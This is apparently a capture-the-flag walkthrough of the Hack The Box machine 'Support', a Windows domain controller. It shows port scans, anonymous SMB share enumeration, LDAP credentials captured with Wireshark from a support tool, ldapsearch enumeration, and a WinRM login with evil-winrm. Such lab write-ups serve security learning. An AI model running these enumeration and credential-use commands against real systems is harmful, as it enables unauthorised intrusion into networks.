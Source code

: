 # Support

## NMAP

* *Rustscan*

```Console
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49668/tcp open  unknown          syn-ack ttl 127
49678/tcp open  unknown          syn-ack ttl 127
49690/tcp open  unknown          syn-ack ttl 127
49707/tcp open  unknown          syn-ack ttl 127

```

* *NMAP*

```Console
PORT      STATE    SERVICE       REASON          VERSION
53/tcp    open     domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open     kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-12-12 06:36:58Z)
135/tcp   open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp   open     ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open     microsoft-ds? syn-ack ttl 127
464/tcp   open     kpasswd5?     syn-ack ttl 127
594/tcp   filtered tpip          no-response
3268/tcp  open     ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open     tcpwrapped    syn-ack ttl 127
9389/tcp  open     mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

* *smbclient list shares anonymous*

```bash
$ smbclient -N -L  \\\\$IP\\

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share 
support-tools   Disk      support staff tools
SYSVOL          Disk      Logon server share
```

* *crackmapexec spidering folders*

``` bash
$ crackmapexec smb $IP -u rzgami -p "" --spider support-tools --regex .

SMB  10.129.230.181  445 DC   [+] support.htb\rzgami: 
SMB  10.129.230.181  445 DC   [*] Started spidering
SMB  10.129.230.181  445 DC   [*] Spidering .
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/. [dir]
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/.. [dir]
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/7-ZipPortable_21.07.paf.exe                                    
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/npp.8.4.1.portable.x64.zip                                     
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/putty.exe                                                      
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/SysinternalsSuite.zip                                          
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/UserInfo.exe.zip                                               
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/windirstat1_1_2_setup.exe                                      
SMB  10.129.230.181  445 DC   //10.129.230.181/support-tools/WiresharkPortable64_3.6.5.paf.exe
```

* *Get UserInfo.exe.zip via smbclient*

``` bash
$ smbclient -N  \\\\$IP\\support-tools
> get UserInfo.exe.zip
```

* *Unzip the contents of UserInfo.exe.zip*

``` bash
$ unzip UserInfo.exe.zip

Archive:  UserInfo.exe.zip
  inflating: UserInfo.exe            
  inflating: CommandLineParser.dll   
  inflating: Microsoft.Bcl.AsyncInterfaces.dll  
  inflating: Microsoft.Extensions.DependencyInjection.Abstractions.dll  
  inflating: Microsoft.Extensions.DependencyInjection.dll  
  inflating: Microsoft.Extensions.Logging.Abstractions.dll  
  inflating: System.Buffers.dll      
  inflating: System.Memory.dll       
  inflating: System.Numerics.Vectors.dll  
  inflating: System.Runtime.CompilerServices.Unsafe.dll  
  inflating: System.Threading.Tasks.Extensions.dll  
  inflating: UserInfo.exe.config
```

## Wine - trouble

* To Run the exe we needed wine (Windows emulator for linux)
* which lead me to the following error when I ran the UserInfo.exe using Wine

```bash
$ wine ./UserInfo.exe
0118:err:mscoree:CLRRuntimeInfo_GetRuntimeHost Wine Mono is not installed
```

* Upon some troubleshooting on google for answers this is the instant solution which got me sorted at [askubuntu](https://askubuntu.com/a/992215)

```bash
$ wine ./UserInfo.exe

Usage: UserInfo.exe [options] [commands]

Options:
  -v|--verbose        Verbose output

Commands:
  find                Find a user
  user                Get information about a user
```

## Wireshark

* In order to see which protocol or how the exe is communicating generally we use wireshark along with the following command

```bash
$ wine ./UserInfo.exe user help

Unable to parse command 'user' reason: Required option '-username' not found!

$ wine ./UserInfo.exe user -username support
[-] Exception: No Such Object
```

![wireshark](./images/support-wireshark.png)
* The simple credentials from the LDAP authentication are as follows
	`nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

## ldapsearch

* we can use ldapsearch for enumerating further

```bash
ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" > ldap-enum.txt
```

* looking at info of the user we can find the password disclosed

## User - Own

*  we can use evil-winrm as the winrm port was discovered to be open

```bash
$ evil-winrm -u "support" -p "P@ssword" -i $IP
```